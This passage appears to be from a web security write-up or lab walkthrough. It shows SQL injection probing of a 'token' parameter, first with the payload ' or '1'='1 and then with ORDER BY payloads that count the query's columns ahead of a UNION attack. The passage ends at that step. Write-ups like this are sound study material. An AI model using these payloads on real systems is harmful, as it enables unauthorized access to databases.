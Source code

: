 ---> then check the token parameter is vulnerable to the sql injection

![Image](/img/token_request.png)

Send invalid token with classical sql injection payload ' or '1'='1

![Image](/img/sqlipayload.png)

this request confirmed that token parameter is vulnerable to sql injection

#### Determine the number of columns with union statement

- token=212174768840da1c6a1604c8b485a0ee'+order+by+1--+
- token=212174768840da1c6a1604c8b485a0ee'+order+by+2--+
- token=212174768840da1c6a1604c8b485a0ee'+order+by+3--+
- token=212174768840da1c6a1604c8b485a0ee'+order+by+4--+
- token=212174768840da1c6a1604c8b485a0ee'+order+by+5--+
- token=212174768840da1c6a1604c8b485a0ee'+order+by+6--+

![Image](/img/req5.png)
